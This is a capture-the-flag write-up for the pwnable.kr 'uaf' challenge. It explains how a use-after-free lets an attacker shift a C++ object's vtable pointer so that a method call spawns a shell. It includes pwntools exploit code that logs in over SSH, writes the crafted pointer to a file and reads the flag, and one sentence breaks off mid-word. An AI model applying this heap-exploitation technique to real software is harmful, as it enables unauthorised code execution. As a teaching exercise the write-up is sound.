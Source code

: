 Note: a vtable is associated to a class, and allocated objects of the class in the heap (with the new keyword) will include a chunk containing their vtable address. vtables are present in the binary. 

When we want to call functions defined inside the class, their addresses will be found in the vtable corresponding to the address present in the object's heap chunk.

In this challenge, after freeing the chunks, we can overwrite the chunks of size ``0x20`` (that contain vtable address) by the content of the file passed in ``argv[2]``. We will specify a size of 0x18 to ensure it is the ``0x20``-sized chunks that are going to be reused (0x18 will be 16-bit aligned to 0x20).

Moreover, we have a use after free vulnerability: ``m->introduce`` (supposed to call ``Man::introduce``) can still be called after the free. We are going to exploit this by modifying the address of the vtable used by the ``m`` object, thus to make it call the ``give_shell`` function.

``introduce`` is the second function for Man vtable. We have:
``*(man_vtable+0x10)``   is ``give_shell`` address
``*(man_vtable+0x10+8)`` is ``introduce``  address

Note: first function in the vtable is after a 0x10 offset. In the heap, it is ``vtable+0x10`` that is stored.

If we decrease ``(vtable+0x10)`` address by 8, trying to call ``m->introduce`` will result in calling ``m->give_shell``.

Let's load the binary to get the Man vtable address.
```python
from pwn import *
elf = ELF("uaf")
```
first function of the old vtable (give_shell) :
```python
old_vtable_1F =  elf.symbols["_ZTV3Man"]+0x10
```
give_shell takes the place of introduce as second function :
```python
new_vtable_1F =  old_vtable_1F-8
```

Now let's write th
```python
shell = ssh("uaf", "pwnable.kr", password="guest", port=2222)
wp = shell.process(["cat", "/dev/stdin", ">>", "/tmp/payload"])
wp.send(p64(new_vtable_1F))
wp.close()

p = shell.process(["./uaf", "24", "/tmp/payload"])
print p.recv()
p.sendline("3") 
print p.recv()
p.sendline("2") 
```
It's the ``w`` heap chunk containing vtable that is going to be reused the first time. So we have to store the payload twice, since ``m->introduce`` is called before ``w->introduce``
```python
print p.recv()
p.sendline("2")
print p.recv()
p.sendline("1")
print p.recv()
p.sendline("cat flag")
print p.recv()
```
